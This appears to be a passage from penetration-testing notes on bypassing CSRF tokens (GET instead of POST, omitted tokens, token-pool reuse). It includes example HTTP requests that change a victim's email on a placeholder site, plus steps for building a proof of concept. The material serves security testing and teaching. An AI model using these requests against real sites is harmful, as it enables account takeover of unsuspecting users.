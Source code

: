 If the session cookie’s SameSite value is set to none and the `referer` header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

#### Request Method

Sometimes the CSRF token is only being validated in a POST request, you should also try to send the request as a GET request. 

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

#### Remove CSRF Token

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net~~&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY~~
```

#### CSRF Token Pool

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

```
1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC
```
